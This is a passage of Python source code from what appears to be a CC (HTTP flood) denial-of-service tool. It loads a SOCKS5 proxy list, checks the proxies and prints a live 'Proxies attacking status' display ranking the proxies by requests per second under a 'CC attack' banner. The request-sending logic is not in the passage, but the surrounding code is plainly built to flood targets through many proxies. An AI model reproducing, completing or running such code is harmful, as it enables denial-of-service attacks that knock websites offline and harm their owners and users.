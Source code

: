 	elif choice == "5":
		out_file = str(input("> Socks5 Proxy file path(socks5.txt):"))
		if out_file == '':
			out_file = str("socks5.txt")
		else:
			out_file = str(out_file)
		check_list(out_file)
		proxies = open(out_file).readlines()
	print ("> Number Of Socks%s Proxies: %s" %(choice,len(proxies)))
	time.sleep(0.03)
	ans = str(input("> Do u need to check the socks list?(y/n, defualt=y):"))
	if ans == "":
		ans = "y"
	if ans == "y":
		ms = str(input("> Delay of socks(seconds, default=1):"))
		if ms == "":
			ms = int(1)
		else :
			try:
				ms = int(ms)
			except :
				ms = float(ms)
		check_socks(ms)

def SetupIndDict():
	global ind_dict
	for proxy in proxies:
		ind_dict[proxy.strip()] = 0

def OutputToScreen(ind_rlock):
	global ind_dict
	i = 0
	sp_char = ["|","/","-","\\"]
	while 1:
		if i > 3:
			i = 0
		print("{:^70}".format("Proxies attacking status"))
		print("{:^70}".format("IP:PORT   <->   RPS    "))
		#1. xxx.xxx.xxx.xxx:xxxxx ==> Rps: xxxx
		ind_rlock.acquire()
		top10 = sorted(ind_dict, key=ind_dict.get, reverse=True)
		for num in range(10):
			top = "none"
			rps = 0
			if len(ind_dict) != 0:
				top = top10[num]
				rps = ind_dict[top]
				ind_dict[top] = 0
			print("{:^70}".format("{:2d}. {:^22s} | Rps: {:d}".format(num+1,top,rps)))
		total = 0
		for k,v in ind_dict.items():
			total = total + v
			ind_dict[k] = 0
		ind_rlock.release()
		print("{:^70}".format(" ["+sp_char[i]+"] CC attack | Total Rps:"+str(total)))
		i+=1
		time.sleep(1)
		print("\n"*100)

